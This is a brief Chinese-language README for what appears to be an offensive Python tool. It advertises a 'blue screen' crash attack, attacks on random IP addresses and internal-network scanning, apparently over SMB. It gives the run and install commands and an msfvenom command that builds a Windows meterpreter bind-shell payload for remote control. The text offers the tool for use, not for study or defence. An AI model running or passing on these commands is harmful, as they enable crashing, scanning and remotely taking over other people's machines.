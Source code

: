 本脚本有蓝屏攻击, 随机IP攻击功能, 内网扫描
扫描内网的指令
./main.py local

本模块需要netaddr模块
使用指令安装
python3 -m pip install netaddr 或者 pip install netaddr

smbprotocol模块无需手动下载

生成远程控制载荷
	msfvenom -p windows/x64/meterpreter/bind_tcp lport=4444 -f python -o shellcode.txt

本脚本的远程控制代码在网上参考
